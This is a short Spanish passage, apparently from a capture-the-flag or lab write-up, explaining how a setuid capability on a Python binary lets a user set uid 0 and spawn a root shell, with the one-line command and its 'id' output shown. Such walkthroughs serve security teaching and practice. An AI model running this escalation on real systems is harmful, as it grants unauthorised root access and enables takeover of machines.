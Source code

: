 Esta capacidad nos permite cambiar nuestro `uid` (User Identifier) a `0` para hacerle entender al sistema que somos `root` a nivel de usuario pero no de grupo, por lo que podremos operar como root de forma temporal hasta que cerremos la sesión

~~~ bash
kvzlx@c052d297dce2:~$ /opt/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@c052d297dce2:~# id
uid=0(root) gid=1000(kvzlx) groups=1000(kvzlx)
~~~
